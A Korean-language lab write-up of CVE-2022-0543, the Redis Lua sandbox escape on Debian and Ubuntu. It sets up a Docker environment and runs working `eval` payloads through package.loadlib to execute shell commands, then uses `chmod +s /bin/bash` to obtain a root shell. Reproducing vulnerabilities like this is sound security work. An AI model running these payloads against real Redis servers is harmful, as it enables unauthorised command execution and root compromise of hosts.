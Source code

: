 # CVE-2022-0543

**Contributors**

-   [박연준(@yeo0n)](https://github.com/yeo0n)

<br/>

### 요약
-   Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 탈출하여 호스트에서 임의의 코드를 실행할 수 있습니다.
> https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543
> https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis
> https://www.linode.com/ko/blog/security/linode-security-digest-cassandra-redis-snap-confine/
> https://nvd.nist.gov/vuln/detail/CVE-2022-0543

<br/>

### Redis란?

-   Redis는 Key, Value 구조의 비정형 데이터를 저장하고 관리하기 위한 오픈 소스 기반의 비관계형 데이터 베이스 관리 시스템 (DBMS)입니다.
-   데이터베이스, 캐시, 메세지 브로커로 사용되며 인메모리 데이터 구조를 가진 저장소입니다.

<br/>

### CVE-2022-0543 소개

-   2022년 2월 Redis의 심각한 취약점이 보고되었습니다. Redis는 패키징 문제로 인해 (Debian 관련) Lua 샌드박스 이스케이프가 발생하기 쉽고 이로 인해 원격 코드가 실행될 수 있는 것으로 나타났습니다.
-   주목해야 할 중요한 점은 이 취약점은 Debian 및 Debian 파생 Linux 배포만에만 적용된다는 것입니다. 업스트림 Redis는 영향을 받지 않습니다.
-   Reginaldo Silva가 Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있음을 발견했습니다.
-   근본적인 원인은 Lua 라이브러리가 Debian 동적 라이브러리로 제공됩니다. "패키지"변수가 자동으로 채워지므로 임의의 Lua 기능에 대한 액세스가 허용됩니다. 예를 들어 이 기능은 "os"모듈의 "execute" 함수로 확장되면 임의의 Lua 코드를 실행할 수 있는 공격자가 임의의 셸 명령을 실행할 수 있습니다.

<br/>

### PoC 코드

```
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

<br/>

### 환경 구성 및 실행

-   터미널 창을 연 후, 다음 명령을 실행하여 Redis 서버 5.0.7 테스트 환경을 실행합니다.
```
docker compose up -d
```

-   서버가 시작된 후 다음 명령어를 통해 자격 증명 없이 이 서버에 연결할 수 있습니다. Redis 서버의 기본 설치에는 비밀번호가 없는 기본 사용자가 함께 제공됩니다. `redis-cli`
```
redis-cli -h your-ip
```

-   exit 명령어로 연결을 끊은 후, Docker로 연 redis 서버에서 다음 명령어로 실행 중인 프로세스를 식별합니다. (기본 포트인 6379에서 수신 대기중이며, Root로 실행되고 있음을 확인)
```
ps aux
```

-   Redis 서버에 다시 연결합니다.
```
redis-cli
```
![](1.png)

-   PoC는 공유 Lua 라이브러리를 참조하기 때문에 사용 가능한 공유 Lua 라이브러리를 확인합니다.
```
ls -al /usr/lib/x86_64-linux-gnu/liblua*
```
![](2.png)

-   redis-cli로 연결한 후 다음 PoC 코드를 입력합니다. (주의할 점: touch 뒤에 있는 경로를 pwd로 확인하여 확인하기 쉽게 변경)
```
redis cli
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

-   이제 redis-cli를 종료하고 redis_poc 파일을 확인합니다.
```
exit
ls -al
```
![](3.png)

-   redis-cli에 연결하고 다음 `id`의 os 명령을 실행하는 페이로드를 입력합니다.
```
redis-cli
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](4.png)

-   다음으로 루트 셸을 얻기 위해 Lua 샌드박스 이스케이프 익스플로잇을 활용하여 `bash`를 `SUID` 루트 바이너리로 만듭니다.
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("chmod +s /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](5.png)

-   redis-cli를 종료하고 루트 셸을 얻기 위해 루트 사용자로 로그인합니다.
```
exit
/bin/bash -p
id
```
![](6.png)

<br/>

### 정리

-   이 취약점은 Redis가 데비안 계열의 우분투 패키징 문제로 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있었습니다. 따라서 안전한 redis 서버를 운영하기 위해서 주기적으로 redis 버전을 확인하고 업데이트 하는 것이 필요합니다.

